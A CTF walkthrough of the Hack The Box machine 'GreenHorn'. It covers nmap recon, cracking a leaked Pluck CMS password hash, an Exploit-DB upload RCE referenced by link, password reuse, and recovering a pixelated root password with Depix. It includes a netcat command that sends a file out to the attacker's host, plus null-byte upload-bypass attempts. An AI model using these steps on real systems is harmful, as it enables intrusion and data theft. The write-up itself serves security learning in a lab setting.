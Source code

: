 This was an easy box but took me longer than expected to crack.

Started off with an NMAP scan

```diff
nmap -p- -A -T4 10.10.11.25

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 57:d6:92:8a:72:44:84:17:29:eb:5c:c9:63:6a:fe:fd (ECDSA)
|_  256 40:ea:17:b1:b6:c5:3f:42:56:67:4a:3c:ee:75:23:2f (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://greenhorn.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=62f2fcf1176f2db0; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=97S-jdG8v4soGuIvlAtrVnm-RCw6MTcyMjI3NDAzNDYwOTMxMDQ2Nw; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Mon, 29 Jul 2024 17:27:14 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>GreenHorn</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR3JlZW5Ib3JuIiwic2hvcnRfbmFtZSI6IkdyZWVuSG9ybiIsInN0YXJ0X3VybCI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLCJzaXplcyI6IjUxMng1MTIifSx7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYX
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: GET
|     Allow: HEAD
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=6dc3dd530f506673; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=Aiz2dT_8egztQ4XLhngm2kmm3W46MTcyMjI3NDA0MTAwMDgxMzI3OQ; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Mon, 29 Jul 2024 17:27:21 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.94SVN%I=7%D=7/29%Time=66A7D0F2%P=x86_64-pc-linux-gnu%r
SF:(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x
SF:20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Ba
SF:d\x20Request")%r(GetRequest,1530,"HTTP/1\.0\x20200\x20OK\r\nCache-Contr
SF:ol:\x20max-age=0,\x20private,\x20must-revalidate,\x20no-transform\r\nCo
SF:ntent-Type:\x20text/html;\x20charset=utf-8\r\nSet-Cookie:\x20i_like_git
SF:ea=62f2fcf1176f2db0;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nSet-Coo
SF:kie:\x20_csrf=97S-jdG8v4soGuIvlAtrVnm-RCw6MTcyMjI3NDAzNDYwOTMxMDQ2Nw;\x
SF:20Path=/;\x20Max-Age=86400;\x20HttpOnly;\x20SameSite=Lax\r\nX-Frame-Opt
SF:ions:\x20SAMEORIGIN\r\nDate:\x20Mon,\x2029\x20Jul\x202024\x2017:27:14\x
SF:20GMT\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en-US\"\x20class=\"the
SF:me-auto\">\n<head>\n\t<meta\x20name=\"viewport\"\x20content=\"width=dev
SF:ice-width,\x20initial-scale=1\">\n\t<title>GreenHorn</title>\n\t<link\x
SF:20rel=\"manifest\"\x20href=\"data:application/json;base64,eyJuYW1lIjoiR
SF:3JlZW5Ib3JuIiwic2hvcnRfbmFtZSI6IkdyZWVuSG9ybiIsInN0YXJ0X3VybCI6Imh0dHA6
SF:Ly9ncmVlbmhvcm4uaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9ncmVlbmh
SF:vcm4uaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLC
SF:JzaXplcyI6IjUxMng1MTIifSx7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvY
SF:X")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(HTTPOptions,1BD,"HTTP/1\.0\x20405\x20Method\x20Not\x20All
SF:owed\r\nAllow:\x20HEAD\r\nAllow:\x20GET\r\nAllow:\x20HEAD\r\nAllow:\x20
SF:HEAD\r\nAllow:\x20GET\r\nCache-Control:\x20max-age=0,\x20private,\x20mu
SF:st-revalidate,\x20no-transform\r\nSet-Cookie:\x20i_like_gitea=6dc3dd530
SF:f506673;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nSet-Cookie:\x20_csr
SF:f=Aiz2dT_8egztQ4XLhngm2kmm3W46MTcyMjI3NDA0MTAwMDgxMzI3OQ;\x20Path=/;\x2
SF:0Max-Age=86400;\x20HttpOnly;\x20SameSite=Lax\r\nX-Frame-Options:\x20SAM
SF:EORIGIN\r\nDate:\x20Mon,\x2029\x20Jul\x202024\x2017:27:21\x20GMT\r\nCon
SF:tent-Length:\x200\r\n\r\n")%r(RTSPRequest,67,"HTTP/1\.1\x20400\x20Bad\x
SF:20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnectio
SF:n:\x20close\r\n\r\n400\x20Bad\x20Request");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=7/29%OT=22%CT=1%CU=44223%PV=Y%DS=2%DC=T%G=Y%TM=66A7
OS:D161%P=x86_64-pc-linux-gnu)SEQ(SP=F8%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)S
OS:EQ(SP=F8%GCD=2%ISR=107%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M53CST11NW7%O2=M53CST1
OS:1NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=FE
OS:88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5
OS:3CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4
OS:(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%
OS:F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%
OS:T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%R
OS:ID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   164.65 ms 10.10.14.1
2   165.29 ms 10.10.11.25

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1984.66 seconds
```
Firstly add the IP of the box to /etc/hosts and map it to greenhorn.htb

Now, There are two ports hosting websites, port 80 and 3000. I initially focused on the main port and navigated to http://greenhorn.htb. It is hosting a Pluck CMS (version: 4.7.18). Upon further exploring this site, we find two endpoints login.php and admin.php. I tried to access admin.php but was redirected to login.php asking to log in. I hit a road block here.

So, now lets focus on http://greenhorn.htb:3000. It is hosting Gitea, a DevOps platform. Further exploring the site we can find GreenAdmin/GreenHorn with all the source code of the main website. We can find the source code of admin.php and login.php, how the login is handled using cookies and other technologies. 

In the login.php page we can find a placeholder $ww for password and we can also see that SHA512 hashing is used for passwords. Further exploring the directory we find a pass.php in data/settings path. We can find the SHA512 hash og the password.

After dehashing the obtained hash we get a password "iloveyou1". Now try to login at login.php with this password and you will be given access to admin.php. Which is used to manage the whole website. 

Now in the admin portal there is a way to upload files. I tried to exploit this to gain RCE by uploading a PHP reverse shell. But sadly the website has measure to counter this. If the file extension has commonly used php extensions in it then it is appended with a .txt extension, nullifying the .php extension. I tried to proceed by adding a null byte(%00 and 0x00) to the end of the .php extension. Now the file is getting uploaded without a .txt file extension but still the file cannot be executed on the server side, everytime I try to run the file by clicking on it, it prompts a download. 
![alt text](/assets/image1.png)

After many more failed attempts, I turned to exploitDB and luckily Pluck(version: 4.7.18) is vulnerable to RCE as I expected but to exploit this we had to upload a .zip file with the reverse shell in it rather than directly uploading the reverse shell. I used the the exploit posted on exploitDB (https://www.exploit-db.com/exploits/51592) and Bingo!! Got a shell. 
![alt text](/assets/image.png)
![alt text](/assets/image2.png)

Now off to user.txt. Navigating to /home/junior I found the user.txt with another PDF file, "Using OpenVAS.pdf". When I tried to cat the user.txt, I got a permission denied error. Only root and junior had permission to access both these files. Now this is where I got stuck for a long time. I tried a variety of privilege escalation methodologies with no success. I was frustrated and I just randomly thought of using the previously obtained password "iloveyou1" as junior's password, it worked T.T

![alt text](/assets/image3.png)


Now I wanted to read the contents of the PDF. But I had no provisions to do so on the shell so I thought of using netcat to transfer it to my host machine where I could analyse it. 

Syntax for File transfer on the shell(sender)
```diff
nc -w 3 10.10.14.109 12345 < 'Using OpenVAS.pdf'

```
Syntax for File transfer on the host(receiver)
```diff
nc -lp 12345 > output.pdf
```

Analysing the PDF we can see that there is a password for root mention in the file but it is pixelated. I tried out many online tools to dipixelate the pdf but none worked. Then came across a tool named Depix(https://github.com/spipm/Depix) from a blog online. 
![alt text](/assets/image4.png)

To use Depix let's first convert the pdf to an image
```diff
pdfimages output.pdf pix
```

Now to use Depix
![alt text](/assets/image5.png)
![alt text](/assets/image6.png)

The password for root is "sidefromsidetheothersidesidefromsidetheotherside"
![alt text](/assets/image7.png)


Done and Dusted!!